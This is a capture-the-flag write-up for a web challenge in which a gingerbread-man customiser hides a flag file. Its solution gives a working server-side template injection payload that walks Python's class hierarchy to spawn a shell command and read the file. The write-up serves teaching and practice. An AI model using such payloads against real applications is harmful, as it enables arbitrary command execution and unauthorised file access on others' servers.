

## Description

Here you can customize your absolutely fat-free gingerbread man.

Note: Start your personal instance from the RESOURCES section on top.

Besides the gingerbread men, there are other goodies there. Let's see if
you can get the goodie, which is stored in /flag.txt.

## Solution

We realise we can do a server side template injection (SSTI); this
challenge is very similar to [this previous
writeup](../PicoCTF_2018/writeup.md#web-exploitation-900-flaskcards-and-freedom)
from PicoCTF 2018.

We follow this method, and find the injection that gives us our flag:

    {{ ''.__class__.__mro__[2].__subclasses__()[258]('cat flag.txt',shell=True,stdout=-1).communicate() }}"

